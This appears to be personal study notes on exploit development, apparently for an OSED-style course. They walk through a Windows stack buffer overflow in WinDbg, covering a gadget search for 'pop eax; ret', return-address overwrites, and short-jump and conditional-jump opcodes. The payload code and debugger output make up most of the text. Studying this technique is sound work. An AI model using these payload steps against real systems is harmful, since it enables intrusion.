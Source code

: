 ```bash
windbg> s -[1]b 00400000 00452000 58 c3
0x00418674 # choose one address that does not contain bad characters
...

# Edit Payload
inputBuffer = b"\x41" * size
inputBuffer += pack("<L", (0x418674)) # 0x00418674 - pop eax; ret

# Set breakpoint to the address before running the payload
windbg> bp 0x00418674
windbg> bl
windbg> g
windbg> t # should show ret here
windbg> dc poi(@esp) # inspect what is returned
03d3ea84 00544547 00000000 00000000 00000000
...

# Edit Payload
preInputBuffer = b"\x43\x43\x43\x43\x43\x43\x43\x43" + b" /" # try to overwrite the return values
inputBuffer = b"\x41" * size
inputBuffer += pack("<L", (0x418674)) # 0x00418674 - pop eax; ret
buf = preInputBuffer + inputBuffer

# Set breakpoint to the address again before running the payload
windbg> bp 0x00418674
windbg> bl
windbg> g
windbg> dc poi(@esp+4) # check that return value is overwritten
03eeea84 43434343 43434343 00000000 00000000
...
```

##### Short Jump

```bash
# Edit Payload
preInputBuffer = = b"\xeb\x17\x90\x90" + b" /" # Short jump of 0x17
inputBuffer = b"\x41" * size
inputBuffer += pack("<L", (0x418674)) # 0x00418674 - pop eax; ret
buf = preInputBuffer + inputBuffer

windbg> bp 0x00418674
windbg> bl
windbg> g
windbg> t
windbg> t
... 0306ea84 cb retf # unexpected retf
```

##### Conditional Jumps

```bash
# Get opcodes for conditional jump 
kali$ msf-nasm_shell
nasm> xor ecx, ecx
name> test ecx, ecx
nasm> je 0x17

# Edit Payload
preInputBuffer = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /" # xor ecx, ecx; test ecx, ecx; je 0x17 
inputBuffer = b"\x41" * size
inputBuffer += pack("<L", (0x418674)) # 0x00418674 - pop eax; ret
buf = preInputBuffer + inputBuffer

windbg> bp 0x00418674
```